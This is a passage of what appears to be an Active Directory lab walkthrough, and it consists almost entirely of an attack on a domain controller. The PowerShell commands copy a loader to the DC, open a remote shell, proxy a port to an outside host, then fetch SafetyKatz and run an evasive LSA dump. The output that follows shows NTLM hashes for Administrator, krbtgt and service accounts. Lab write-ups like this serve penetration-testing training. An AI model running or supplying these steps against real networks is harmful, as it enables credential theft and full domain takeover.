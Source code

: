 <figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Run the below commands from the process running as DA to copy Loader.exe on dcorp-dc and use it to extract credentials:

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
winrs -r:dcorp-dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.34
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"
```

```
RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 4e9815869d2090ccfca61c1fe0d23986

RID  : 00000459 (1113)
User : sqladmin
LM   :
NTLM : 07e8be316e3da9a042a9cb681df19bf5

RID  : 0000045a (1114)
User : websvc
LM   :
NTLM : cc098f204c5887eaa8253e7c2749156f
```